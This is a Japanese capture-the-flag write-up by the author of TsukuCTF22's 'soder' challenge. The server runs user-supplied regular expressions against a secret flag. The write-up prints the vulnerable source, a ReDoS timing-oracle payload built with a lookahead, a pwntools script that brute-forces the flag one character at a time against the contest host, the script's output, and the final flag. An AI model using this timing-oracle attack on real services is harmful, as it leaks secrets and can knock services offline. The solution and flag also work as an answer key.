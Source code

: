 # soder

## 問題文
flagのvalidatorを作ってもらったのですが、同じ応答しか返しません(´;ω;｀)  
`※フラグの形式はTsukuCTF22{[0-9a-z_]+}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。`  
`nc 133.130.103.51 31417`  

[soder.zip](files/soder.zip)  

## 難易度
**medium**  

## 作問にあたって
Webのleaks4bの作問中に非想定解のオラクルとして思いついたものを問題にしました(実は作問時に調べたら、先に思いついていた方がいてしょんぼりしていました)。  
ReDoS問題としては、脆弱なパターンに任意の入力を渡す場合が多いですが、逆を作ってみました(ReDoS checkerで一発なため)。  
爆発するバックトラックを発生させるパターンをうまく作成すれば良いです。  

## 解法
ソースと接続先が与えられる。  
ソースを見ると以下のようであった。  
```python
#!/usr/bin/env python3
import os
import re
from timeout_decorator import timeout

FLAG = os.getenv("FLAG", "TsukuCTF22{dummy_flag}")

@timeout(5)
def flag_validator(pattern):
    re.match(pattern, FLAG)

def yakitori():
    pattern = input("Pattern: ")
    print("I check your pattern.")
    try:
        # This function will be timed out in 5 seconds.
        flag_validator(pattern)
    except:
        pass
    print("Probably valid flag!")

yakitori()
```
パターンをユーザから受け取り、`re.match`をフラグに行い終了している。  
`re.match`の結果を利用していないので、別の手法でフラグを読み取る必要がある。  
ここで、正規表現のパターンを入力から受け取っているためReDoSが行えることがわかる。  
よく知られている脆弱なパターン`^(([a-zA-Z0-9])+)+$`をフラグ形式に合う形で加工した`^((([0-9a-z_CTF{])+)+)+$`を投げてみる。  
```bash
$ time echo 'Test' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m0.687s
user    0m0.006s
sys     0m0.001s
$ time echo '^((([0-9a-z_CTF{])+)+)+$' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m5.562s
user    0m0.005s
sys     0m0.002s
```
応答時間に差があることがわかる。  
つまりこの応答時間からフラグの一致を読み取れる。  
`^(?=フラグ文字列)((([0-9a-z_CTF{])+)+)+$`のように肯定先読みを使って、一致した場合にのみ応答が遅れるペイロードを構成してやればよい。  
以下のwftf.pyを用いる。  
```python
from pwn import *

FLAG = "TsukuCTF22{"

while True:
    for c in "0123456789abcdefghijklmnopqrstuvwxyz_":
        io = remote("133.130.103.51", "31417", level="error")
        io.recvuntil(b"Pattern: ")
        #print(c) # Debug
        io.sendline(f"^(?={FLAG}{c})((([0-9a-z_CTF{{])+)+)+$".encode())
        response = io.recvrepeat(4.5).decode()
        if not "Probably valid flag!" in response:
            FLAG += c
            print(FLAG)
            io.close()
            break
        io.close()
    else:
        FLAG += "}"
        print(FLAG)
        break
```
実行する  
```bash
$ python wftf.py
TsukuCTF22{4
TsukuCTF22{4_
TsukuCTF22{4_w
TsukuCTF22{4_w4
TsukuCTF22{4_w47
TsukuCTF22{4_w47c
TsukuCTF22{4_w47ch
TsukuCTF22{4_w47ch3
TsukuCTF22{4_w47ch3d
TsukuCTF22{4_w47ch3d_
TsukuCTF22{4_w47ch3d_p
TsukuCTF22{4_w47ch3d_p0
TsukuCTF22{4_w47ch3d_p07
TsukuCTF22{4_w47ch3d_p07_
TsukuCTF22{4_w47ch3d_p07_n
TsukuCTF22{4_w47ch3d_p07_n3
TsukuCTF22{4_w47ch3d_p07_n3v
TsukuCTF22{4_w47ch3d_p07_n3v3
TsukuCTF22{4_w47ch3d_p07_n3v3r
TsukuCTF22{4_w47ch3d_p07_n3v3r_
TsukuCTF22{4_w47ch3d_p07_n3v3r_b
TsukuCTF22{4_w47ch3d_p07_n3v3r_b0
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}
```
flagが得られた。  

## TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}